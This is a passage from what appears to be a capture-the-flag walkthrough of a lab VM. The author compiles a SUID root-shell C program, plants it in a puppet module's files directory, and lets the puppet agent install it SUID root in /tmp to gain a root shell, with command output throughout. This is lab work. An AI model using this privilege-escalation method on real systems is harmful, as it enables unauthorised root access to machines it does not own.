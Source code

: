 In order to exploit this, I created a malicious spin executable with a SUID shell:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
```

Then I copied it to the box:

``` plain
scp spin eric@192.168.159.136:/home/eric
```

Next I transferred it to the puppet VM:

```
eric@analoguepond:~$ scp spin sandieshaw@192.168.122.2:/etc/puppet/modules/wiggle/files/spin
sandieshaw@puppet:/etc/puppet/modules/wiggle/files$ ls -l spin
-rwxrwxr-x 1 sandieshaw sandieshaw 16712 May 29 15:42 spin
```

The next time the puppet agent runs, it puts the malicious spin binary in /tmp and makes it SUID root:

```
ls -l /tmp
total 20
-rwsr-xr-x 1 root root 16712 May 29 15:43 spin
```

We are now able to become root:

```
sandieshaw@puppet:~$ /tmp/spin
# ls /root
protovision
```

Inside /root/protovision we find some files and a hidden directory:

```
# ls -alh
total 24K
drwxr-xr-x 3 root root 4.0K Dec 21  2016 .
drwx------ 4 root root 4.0K Jan  7  2017 ..
-rw-r--r-- 1 root root  401 Dec 21  2016 flag1.txt.0xff
drwxr-xr-x 3 root root 4.0K Dec 21  2016 .I_have_you_now
-rw-r--r-- 1 root root   39 Dec 17  2016 jim
-rw-r--r-- 1 root root   53 Dec 17  2016 melvin
```

Checking the flag first:

